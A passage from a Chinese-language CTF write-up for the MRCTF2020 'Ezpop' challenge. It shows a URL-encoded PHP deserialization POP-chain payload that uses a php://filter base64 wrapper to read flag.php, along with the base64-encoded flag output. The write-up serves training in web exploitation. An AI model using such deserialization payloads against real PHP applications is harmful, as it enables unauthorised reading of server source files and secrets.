 ```php
//输出
//Welcome to index.php<br>O%3A4%3A%22Show%22%3A2%3A%7Bs%3A6%3A%22source%22%3Br%3A1%3Bs%3A3%3A%22str%22%3BO%3A4%3A%22Test%22%3A1%3A%7Bs%3A1%3A%22p%22%3BO%3A8%3A%22Modifier%22%3A1%3A%7Bs%3A6%3A%22%00%2A%00var%22%3Bs%3A57%3A%22php%3A%2F%2Ffilter%2Fread%3Dconvert.base64-encode%2Fresource%3Dflag.php%22%3B%7D%7D%7D
```

> 将序列化的数据url编码一下可以防止传值的时候出错

输出结果的前面一些[^1]需要删掉

[^1]:Welcome to index.php\<br\>

> web页面输出结果：
>
> PD9waHAKY2xhc3MgRmxhZ3sKICAgIHByaXZhdGUgJGZsYWc9ICJmbGFnezIxYzg5MmRhLTRmYjYtNDQ5YS1iNjZlLWE5MTEzYWY2ZjRhYn0iOwp9CmVjaG8gIkhlbHAgTWUgRmluZCBGTEFHISI7Cj8+

![[image-20230321164036201](J:\markdown_file\[MRCTF2020]Ezpop\1.png)](https://raw.githubusercontent.com/lanchuangdexingjian/Blog-libray/main/%5BMRCTF2020%5DEzpop/1.png)
